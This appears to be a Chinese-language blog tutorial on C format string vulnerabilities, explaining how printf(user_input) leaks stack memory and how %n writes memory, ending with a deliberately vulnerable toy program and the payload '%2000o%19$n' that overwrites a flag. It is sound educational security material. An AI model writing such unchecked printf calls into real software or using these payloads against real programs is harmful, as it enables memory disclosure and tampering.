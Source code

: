 ```yaml
---
layout: post
title:  "格式化字符串漏洞"
date:   2019-05-26
desc: "苟利国家生死以,岂因祸福避趋之"
keywords: none
categories: [Blue-whale]
tags: [pwn,二进制]
icon: icon-html
---
```


韩晓牛逼就完事了

# 函数声明

printf函数的函数声明

```c
int printf(const char* format,…)
```

format为字符串指针，后接可变参数

正常人的写法

```c
char str[100];
scanf("%s", str);
printf("%s", str);
```

比较牛掰的写法

```c
char str[100];
scanf("%s",str);
printf(str);
```

# 产生原理

~~wdnmd我网上抄的~~

```c
#include <stdio.h>
int main()
{
        printf("%d%d%d%d%s", 5, 6, 8, 0x21, "test");
        return 0;
}
```

对于这段代码，网上大佬写的汇编码如下

```assembly
.data
    str     db  "test",0
    format  db  "%d%d%d%d%s",0

.code
    push   str
    push   21h
    push   8
    push   6
    push   5
    push   format
    call   printf
```

函数会从最右边的参数开始逐个压栈，字符串则传入指针

然而问题是printf支持可变参数，这就导致*函数的调用者可以自由的指定函数参数的数量和类型，被调用者无法知道在函数调用之前到底有多少参数被压入栈帧当中*，然后~~wdnmd~~就可能导致白给

```c
#include <stdio.h>
int main()
{
    printf("%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x,%08x");
    return 0;
}
```

这段代码没有给出任何传入参数，但是确实是能够输出值的

这些数值不是我们输入的参数，而是保存在栈中的其他的数值

~~wdnmd真白给啊~~

# 漏洞利用

> 内存打印

在0day攻击当中，如何获得对方内存中的数据是非常重要的一个技巧，而格式化字符串漏洞的其中一个利用方法便是能够获得内存中那些本不应该被我们知道的数据。这个过程我们称之为leak内存。0day攻击中一种重要的方法ret to libc就是以leak基地址为前提的。

只要我们在format中填入足够的参数，那么`printf`就可以打出储存在栈中的，那些本不能被知道的信息。只要计算好format在栈中的地址与需要leak的信息地址之差。就可以得到想要的数据

如format在0x20处而dest数据在0x00处。他们一共相差32个字节，那么我们就可以构造"%f%f%f%d,%x"这样的字符串。逗号前面会的"%f%f%f%d"可以打印出比foramt更高位的28个字节的数据，当然这不是我们想要的。然后最后的一个%x便可以以16进制的形式打印出我们想要的数据了。

然后，更进一步，我们知道格式化字符串还有%s参数。那么，如果在栈中保存有指向我们感兴趣数据的指针，我们就可以在打印指针的时候使用一个%s来打印别的地方的内容。而且一般的程序都会将用户输入的数据储存在栈上。这就给了我们一个构造指针的机会，再结合格式化字符串漏洞，几乎可以得到所有内存数据。

（上面都是我抄来的orz）

> 修改内存

```c
#include <stdio.h>
int main()
{
    int a;
    printf("aaaaaaa%n\n", &a);
    printf("%d\n", a);
    return 0;
}
```

运行结果为

```C
aaaaaaa
7
```

说明a的值被修改为7

%n的功能是将已经打印的字符个数给传入的指针，然后a就被改了

韩晓牛逼！

# 实践

```c
#include <stdio.h>
int main() {
        int flag = 0;
        int *p = &flag;
        char a[100];
        scanf("%s", a);
        printf(a);
        if(flag == 2000) printf("good!!\n");
        return 0;
}
```

由于linux跑不起IDA Pro，然后直接用gdb跑算了

观察栈发现p在第19个

那么构造payload如下

```c
%2000o%19$n
```

输出2000位然后把已经打印的字符数2000传给栈第19位即p

成功输出good